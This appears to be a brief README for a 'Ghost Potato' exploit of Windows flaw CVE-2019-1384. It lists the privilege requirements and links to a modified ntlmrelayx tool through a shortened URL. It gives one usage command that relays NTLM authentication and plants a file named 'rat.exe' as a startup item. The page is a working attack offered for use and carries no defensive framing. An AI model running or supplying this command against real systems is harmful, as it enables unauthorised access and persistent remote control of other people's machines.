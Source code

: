 # Ghost Potato CVE-2019-1384

## Requirements

#### 1) User must be a member of the local Administrators group

#### 2) User must be a member of the Backup Operators group

#### 3) Token must be elevated 

### Using a modified version of ntlmrelayx: https://tinyurl.com/28udqr6s

 - ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe

